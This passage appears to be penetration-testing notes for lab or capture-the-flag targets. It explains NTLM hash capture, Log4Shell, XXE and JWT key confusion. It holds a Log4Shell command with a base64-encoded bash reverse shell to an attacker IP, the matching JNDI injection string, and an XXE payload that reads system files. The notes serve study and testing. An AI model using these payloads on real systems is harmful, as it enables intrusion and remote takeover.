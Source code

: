 The idea to bypass the NTLM is to force the target authenticate against a rogue SMB server (provided by `responder` tool). This tool will capture the authentication challenge hash and then you can use `john` tool to compare the hash with a dictionary to see if any entry matches.


#### Log4jShell <a name="log4j-shell"></a>

It was discovered that log4j libraries for certain versions were vulnerable to remote code execution. In order to do so, you setup a rogue JNDI/LDAP server from https://github.com/veracode-research/rogue-jndi in the attacker machine and send a JNDI command to the target machine to communicate with the rogue LDAP server to get a revershe shell on the attacker machine.

E.g.:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c
{echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-
d}|{bash,-i}" --hostname "10.10.14.33"
```
Start the rogue JNDI server that will start a reverse shell on 10.10.14.33 using the base64 payload provided.

Then, send the payload to force the target machine connect the rogue JNDI/LDAP server:

```
${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}
```

### XML eXternal Entities (XXE)

If the application is using XML to process any input data, it might be vulnerable to this kind of attacks.

This attack works because the XML parsers usually are configured with support for XML external entities. This is a feature of XML to be able to define objects outside the defined structure, but can be abuse to list internal files or to make connections to the outside of the target machine.

In order to check if the machine is vulnerable to this attack, you can try to show the contents of `/etc/hosts`(Linux) or `C:/Windows/System32/drivers/etc/hosts`(Windows). e.g.:

```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts" >]>
<order><quantity>2</quantity><item>&xxe;</item><address>Fake street 1234</address></order>
```

### JWT Key confussion attack

JWT Tokens are a way to sign and verify tokens that can contain important data such as credencials, roles, etc...

They have two ways of working: asymetric (RSA) and symmetric. In asymetric the token is signed with the private key and can be verified with the public key. In symmetric, the token is signed with a shared secret.

This signing and verifing is very important because it ensures that nobody modifies the tokens.

However, for old unsecure version of the libraries that handles this, it is possible to modify the payload and sign with the public key (if you are lucky enough to get it). When we change the signing algorithm, we are telling the other side that we're using symmetric algorithm.
